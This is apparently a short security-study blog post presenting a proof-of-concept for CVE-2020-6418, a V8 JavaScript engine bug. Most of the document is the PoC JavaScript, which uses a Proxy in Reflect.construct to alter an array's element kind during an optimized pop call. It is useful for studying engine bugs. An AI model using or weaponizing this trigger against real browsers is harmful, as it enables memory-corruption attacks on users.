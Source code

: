 ```yaml
---
layout: post
read_time: true
show_date: true
title: "CVE-2020-6418-PoC(EN)"
date: 2025-02-11
img: posts/20240925/v8_picture.png
tags: [V8, 1-day, PoC]
category: PoC
author: adawn0106
description: "CVE-2020-6418-PoC(EN)"
comments: true

---
```



Following the last root cause, I will explain PoC.


For source code and analysis, refer to the https://cwresearchlab.co.kr/entry/CVE-2020-6418-Incorrect-side-effect-modelling-for-JSCreate blog.
* Because this is an analysis for study purposes, the content may be incorrect.

<br><br><br>

## PoC
---

<br><br><br>


The PoC source code is as follows.

<br><br><br>

```js
/* poc.js */

// Copyright 2020 the V8 project authors. All rights reserved.
// Use of this source code is governed by a BSD-style license that can be
// found in the LICENSE file.

// Flags: --allow-natives-syntax

let a = [0, 1, 2, 3, 4];

function empty() { }

function f(p) {
    return a.pop(Reflect.construct(empty, arguments, p));
}

let p = new Proxy(Object, {
    get: () => (a[1] = 1.1, Object.prototype)
});

function main(p) {
    return f(p);
}

% PrepareFunctionForOptimization(empty);
% PrepareFunctionForOptimization(f);
% PrepareFunctionForOptimization(main);

main(empty);
```